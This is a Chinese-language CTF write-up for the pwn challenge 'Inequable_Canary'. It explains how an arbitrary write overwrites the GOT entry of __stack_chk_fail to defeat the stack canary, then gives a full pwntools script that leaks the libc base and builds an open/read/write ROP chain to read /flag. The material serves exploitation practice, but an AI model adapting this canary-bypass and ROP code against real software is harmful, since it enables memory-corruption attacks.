





[题目链接](./Inequable_Canary.7z)

一个畸形的 canary

<!--more-->

## 题目分析

checksec：



基本上只开了个 Canary 栈保护。

沙箱：



程序没有去符号，main 函数能看出来通过输入可以直接写入 ret_addr 修改函数返回地址：



函数列表里还有 2 个函数 hint 和 vuln。

hint 是个 `jmp rsp`：



vuln：



利用 Tell me the location of the Eye of the Deep Sea 向 `rbp + 0x40` 写入 0x10 字节，再利用 I have magic 的 `sys_read` 可向 `rbp + 0x38` 中指向的位置写 8 字节，也就是可以实现向任意位置写 8 字节。

Let's go! 后的 `read` 读取 0x100 内容到栈上，预分配空间只有 0x20，存在栈溢出，但是程序开了 canary 保护，直接栈溢出会导致 `___stack_chk_fail` 检查不通过。

## 解题思路

看起来程序是想让我们控制 main ret_addr 跳到 vuln 这里，利用 vuln 栈溢出构造 rsp rop。

但是需要先绕过 canary：利用任意位置写修改 `got[___stack_chk_fail]` 使 canary 检查失效。

然后构造正常栈溢出 ROP 就可以。需要两次，第 1 次把 libc 基址泄漏出来，第 2 次是 orw 获取 flag。

## poc

```python
from pwn import *

context.arch = 'amd64'

elf = ELF("./canary")
# libc = ELF("./libc-2.31.so")
libc = ELF("/root/glibc-all-in-one/libs/2.31-0ubuntu9_amd64/libc.so.6")

O_RDONLY = p64(0)
pop_rax = libc.search(asm('pop rax\nret'), executable=True).__next__()
pop_rdx_r12 = libc.search(asm('pop rdx\npop r12\nret'),
                          executable=True).__next__()
# pop_rdx_4 = libc.search(asm('pop rdx\nxor eax, eax\npop rbx\npop r12\npop r13\npop rbp\nret'), executable=True).__next__()
syscall_ret = libc.search(asm('syscall\nret'), executable=True).__next__()

print(hex(pop_rax))
print(hex(pop_rdx_r12))

p = process(["/root/glibc-all-in-one/libs/2.31-0ubuntu9_amd64/ld-linux-x86-64.so.2",
             "./canary"], env={"LD_PRELOAD": "/root/glibc-all-in-one/libs/2.31-0ubuntu9_amd64/libc.so.6"})
# p=remote('139.155.126.78',15806)

# gdb.attach(p)

# pause()

vuln_addr = p64(elf.sym['vuln'])
pop_rdi = p64(0x400a63)         # pop rdi; ret
pop_rsi_r15 = p64(0x400a61)     # pop rsi; pop r15; ret
pop_3 = p64(0x400a5e)           # pop three times  <===> add rsp, 0x18; ret
stack_fail_got = p64(elf.got['__stack_chk_fail'])
read_got = p64(elf.got['read'])
write_addr = p64(elf.sym['write'])
bss = p64(elf.bss())

p.sendafter("start the journey\n", vuln_addr)

# 栈溢出修改 __stack_chk_fail got，绕过 canary 检测
p.sendafter("Tell me the location of the Eye of the Deep Sea\n",
            b'a'*8+stack_fail_got)
p.sendafter("I have magic\n", pop_3)

# rop栈溢出ret -> write，获取 libc 基址
payload = pop_rdi + p64(1) + pop_rsi_r15 + read_got + \
    p64(0) + write_addr + vuln_addr
p.sendafter("Let's go!\n", payload)
libc_base = u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00')) - libc.sym['read']
print(hex(libc_base))

# 栈溢出写入/flag到bss
p.sendafter("Tell me the location of the Eye of the Deep Sea\n", b'a'*8+bss)
p.sendafter("I have magic\n", b'/flag\0\0\0')

pop_rax = p64(libc_base + pop_rax)
syscall_ret = p64(libc_base + syscall_ret)
# pop_rdx_4 = p64(libc_base + pop_rdx_4)
pop_rdx_r12 = p64(libc_base + pop_rdx_r12)


# pause()

# rop栈溢出ret -> open -> /flag
payload = pop_rdi + bss + pop_rsi_r15 + O_RDONLY + \
    p64(0) + pop_rax + p64(2) + syscall_ret
# open -> read
# payload += pop_rdi + p64(3) + pop_rsi_r15 + bss + p64(0) + pop_rdx_4 + p64(0x100) * 5 + pop_rax + p64(0) + syscall_ret
payload += pop_rdi + p64(3) + pop_rsi_r15 + bss + p64(0) + \
    pop_rdx_r12 + p64(0x100) * 2 + pop_rax + p64(0) + syscall_ret
# read -> write -> stdout
payload += pop_rdi + p64(1) + pop_rax + p64(1) + syscall_ret

p.sendafter("Let's go!\n", payload)

# gdb.attach(p)

p.interactive()

```
